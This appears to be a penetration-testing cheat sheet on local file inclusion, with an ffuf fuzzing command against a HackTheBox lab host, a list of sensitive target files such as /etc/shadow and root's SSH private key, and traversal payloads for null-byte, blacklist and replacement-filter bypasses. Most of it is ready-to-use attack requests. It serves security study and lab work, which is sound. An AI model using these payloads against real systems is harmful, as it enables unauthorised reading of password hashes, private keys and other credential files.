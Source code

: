 # LFI enumeration
Read more https://book.hacktricks.xyz/pentesting-web/file-inclusion

```bash
# Enumerate the page query parameter for LFI vulneratbility
ffuf -w /usr/share/wordlists/lfi.txt -u http://preprod-marketing.trick.htb/index.php?page=FUZZ -fw 1
```

### Common path to test
|                             |                                                                                                                                                                   |
|:---------------------------:|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------:|
| /etc/issue                  | Contains a message or system identification to be printed before the login prompt.                                                                                |
| /etc/profile                | Controls system-wide default variables, such as Export variables, File creation mask (umask), Terminal types, Mail messages to indicate when new mail has arrived |
| /proc/version               | Specifies the version of the Linux kernel                                                                                                                         |
| /etc/passwd                 | Has all registered user that has access to a system                                                                                                               |
| /etc/shadow                 | Contains information about the system's users' passwords                                                                                                          |
| /root/.bash_history         | Contains the history commands for root user                                                                                                                       |
| /var/log/dmessage           | Contains global system messages, including the messages that are logged during system startup                                                                     |
| /var/mail/root              | All emails for root user                                                                     |
| /root/.ssh/id_rsa           | Private SSH keys for a root or any known valid user on the server                                                 |
| /var/log/apache2/access.log | The accessed requests for Apache  webserver                                                            |
| C:\boot.ini                 | Contains the boot options for computers with BIOS firmware                                                    |

### Test if null bytes can be used to bypass file extensions
It may be possible to override the end of the include statement by sending a null byte which tricks the application to disregard anything after it. `%00` (Url encoded) or `0x00` (Hex).

An include like this 

```php
include($_GET["filename"] . ".php");
```

Could be vulnerable to an attack like this. (Fixed in PHP 5.3.4 and above.)


```HTTP
GET http://site.com/index.php?filename=../../../../etc/passwd%00
```

### Filter bypasses

#### Bypass filename black list filter
It's possible that there's a filter being applied that disallowes certain file names. In that case it could be possible to bypass the filter by sending a null byte `(%00 or 0x00)` or by adding the current directory `(.)` to the end of the file path. 

If there's for example a filter disallowing the `/etc/passwd` file it might be possible to bypass it with one of these requests.

**Null Byte**
```HTTP
GET http://site.com/index.php?filename=../../../../etc/passwd%00
```

**Current directory**
```HTTP
GET http://site.com/index.php?filename=../../../../etc/passwd/.
```

#### Bypass `../` replacement
In some cases the application might replace `../` with an empty string to try and prevent directoy traversal. In that case it could be possible to bypass it by sending a string like this `....//....//etc/passwd`. This is because some languages will only replace matches in the original string and wont't try to match occurances in the resulting string. 

```HTTP
GET http://site.com/index.php?filename=....//....//etc/passwd
```

Would after replacing any `../` result in the application looking for a file called  `../../etc/passwd`


#### Bypass include only allowed from a certain folder.
If files to be included are only allowed from a certain folder it might be possible to add that folder to the path and then use directory traversal to move to the correct folder. 

```HTTP
GET http://site.com/index.php?filename=allowed-folder/../../../../etc/passwd
```


#### Switch `Method`
It might be possible that the filters are only applied to the current method. Try sending the same request with `GET/POST/PUT` instead
